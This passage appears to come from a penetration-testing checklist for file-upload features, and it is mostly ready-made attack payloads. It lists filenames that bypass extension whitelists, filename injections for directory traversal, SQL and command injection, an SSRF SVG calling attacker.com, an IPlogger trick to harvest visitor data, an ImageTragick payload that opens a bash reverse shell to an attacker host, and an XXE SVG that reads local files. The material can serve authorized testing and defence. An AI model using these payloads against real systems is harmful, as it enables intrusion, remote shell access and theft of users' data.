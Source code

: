     - Whitelisting Bypass
        - `file.jpg.php`
        - `file.php.jpg`
        - `file.php.blah123jpg`
        - `file.php%00.jpg`
        - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
        - `file.php%00`
        - `file.php%20`
        - `file.php%0d%0a.jpg`
        - `file.php.....`
        - `file.php/`
        - `file.php.\`
        - `file.php#.png`
        - `file.`
        - `.html`
    - Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```
